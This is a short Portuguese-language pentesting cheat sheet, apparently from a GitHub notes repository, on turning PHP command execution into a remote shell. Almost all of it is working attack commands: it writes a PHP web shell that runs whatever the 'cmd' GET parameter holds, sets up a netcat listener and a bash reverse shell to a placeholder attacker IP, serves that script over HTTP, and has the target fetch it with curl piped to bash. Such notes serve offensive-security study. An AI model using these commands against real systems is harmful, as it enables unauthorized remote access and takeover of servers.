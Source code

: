 ## PHP
No PHP podemos executar comando no SO com o comando 
`<?php system()>`, desse jeito : 
```php
<?php system("COMMAND"); ?>
```

Também podemos criar assim : 
```sh
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Como no exemplo acima ele está pegando o parâmetro `cmd` com o método ``GET`` , devemos especificar o comando assim : 
```web
https://host.com/shell.php?cmd=<COMMAND>
```

---

Devemos escolher uma porta para escutar, para recebermos o acesso a máquina, nesse caso a porta 1337 : 
```bash
nc -nvlp 1337
```

Criamos o arquivo ``shell.sh`` com o conteúdo : 
```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOU_IP_ADDRESS>/1337 0>&1
```

Iniciamos um servidor python na mesma pasta do `shell.sh` para servir esse arquivo : 
```bash
python3 -m http.server 8000
```

---

Agora fazemos com que o alvo baixe o nosso arquivo com o ``curl``.
```web
https://host.com/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh | bash
```

